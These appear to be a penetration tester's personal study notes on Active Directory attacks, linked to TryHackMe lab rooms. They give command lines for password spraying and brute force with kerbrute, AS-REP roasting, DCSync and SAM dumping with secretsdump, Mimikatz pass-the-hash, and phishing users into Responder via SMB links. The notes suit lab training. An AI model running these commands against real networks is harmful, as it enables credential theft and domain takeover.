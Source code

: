 
###### example ad boxes to test on:
https://tryhackme.com/room/attacktivedirectory - Free room (no null sessions)
https://tryhackme.com/room/breachingad - Free Room (network)
https://tryhackme.com/room/adenumeration - Free Room (network)
https://tryhackme.com/room/lateralmovementandpivoting - Subs only (network)
https://tryhackme.com/room/exploitingad - Subs only (network)
https://tryhackme.com/room/persistingad - Subs only (network)

### finding the dc - in a network

##### from a windows client
 
 should be easy :D
 add something here

##### from a linux client on a windows network

If you're on a linux box in a ad network port scan for 88 to find the dc (not for red team)

### port scan

normal full nmap scan ([[../../Boxes/TryHackMe/Attacktive Directory (Done)/1 - nmap|nmap scan example]])
`nmap -p- -sC -sV -Pn 10.10.10.10`

##### common ports on a dc

53 dns
88 kerberos

139+445 smb

389 ldap
636 ldap ssl
3268 global ldap
3269 global ldap ssl

5985 rdp

### hosts file

Add all names inthe nmap scan to the `/etc/hosts` file
- Kerberos - FQDN (fully qualified domain name) of the domain controller - because tickets embed domain names and SPNs (service principal names)
- SMB - NetBIOS or DNS names - for NTLM handshakes

Examples from [[../../Boxes/TryHackMe/Attacktive Directory (Done)/1 - nmap|1 - nmap]]:
- NetBIOS name: `ATTACKTIVEDIREC`
- NetBIOS Domain name: `THM-AD`
- DNS name: `AttacktiveDirectory.spookysec.local`
- DNS Domain name: `spookysec.local`

Example line in `/etc/hosts`:
`10.10.200.51    AttacktiveDirectory.spookysec.local spookysec.local ATTACKTIVEDIREC THM-AD`

### dc time

in the nmap scan we see something like
`88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-02 21:05:34Z)`

for some things we need a similar time as the dc (within one minute)
##### syncing time from linux

`sudo rdate -n <ipmachine>`


### Listen with responder
- more: [[../29 - C2s, listening tools/responder|responder]] 
- examples to make people connect to responder:
	- send an e-mail with a smb link
	- get a smb link out some other way


### Basic Enumeration

##### null sessions

`nxc smb 10.10.10.10`
`nxc smb 10.10.10.10 -u '' -p ''`

`nxc smb 10.10.10.10 -u 'guest' -p ''`
`nxc smb 10.10.10.10 -u 'guest' -p '' --shares`

`smbclient -L //10.10.10.10 -U '' -N` (-N = no pass)

### User... Enumeration

##### [[impacket-GetNPUsers]]

`impacket-GetNPUsers spookysec.local/ -usersfile userlist.txt -no-pass -dc-ip 10.10.10.10`
- gives hashcat hash - just sent it as it is to hashcat

##### [[kerbrute]]

Enumerating users
`~/tools/kerbrute userenum -d domain.com --dc 10.10.10.10 usernames.txt` 

Password spray
`~/tools/kerbrute passwordspray -d domain.com --dc 10.10.10.10 domain_users.txt password123`

Brute force specific user
`~/tools/kerbrute bruteuser -d domain.com --dc 10.10.10.10 passwords.txt usernamehere`

Brute Force with creds pairs in file
`~/tools/kerbrute bruteforce -d domain.com --dc 10.10.10.10 creds-pairs.txt`

##### nxc smb users file brute force

`nxc smb 10.10.106.240 -u users.txt -p '' --kerberos` (req hosts file entries)
- finds vuln accounts


### Escalation - When we own a user

add stuff on:
impacket-owneredit
impacket-dacledit
bloodyAD

##### [[ldapdomaindump - dump domain info]]
`ldapdomaindump ldap://10.10.10.10 -u domain.com\\mynormaluser -p mypassword`

##### [[Bloodhound]]

on windows:
`Sharphound.exe --CollectionMethods All --Domain domain.com --ExcludeDCs`
Stealthier option:
`SharpHound.exe -c Session,LocalAdmin,Trusts,ACL `

from linux:
`bloodhound-python -u mynormaluser -p 'mypassword' -d domain.com -dc ad01.domain.com -ns 10.10.10.10 -c all`
	-c works the same as with sharphound (if you want the stealthier version)

Starting Bloodhound:
`bloodhound --no-sandbox`
- opens http://127.0.0.1:8080
- neo4j available at http://localhost:7474

##### [[../09 - Windows Exploration/impacket-secretsdump|impacket-secretsdump]]

when you have local files
`impacket-secretsdump -sam sam.hive -system system.hive "DC01$":@10.10.232.150`

when you have `dcsync` permissions
`impacket-secretsdump spookysec.local/backup:backup2517860@10.10.229.142 -just-dc`


##### if we have rdp + local admin
check for local admin
`net localgroup administrators`
with bloodhound we can see what users have current sessions on this computer and we can see if any of these users have permissions we want.
run mimikatz on the computer to dump local lsass hashes
`. .\Invoke-Mimikatz.ps1`
`Invoke-Mimikatz`
if we get a hash from a high priv user on the domain we can start a new ps as this user
`Invoke-Mimikatz -command '"sekurlsa::pth /user:privusername /domain:domain.com /ntlm:thehashwegot /run:powershell.exe"'`






### If we got nowhere

[[pentest ad SVG]]
[[Links (AD)]]
...
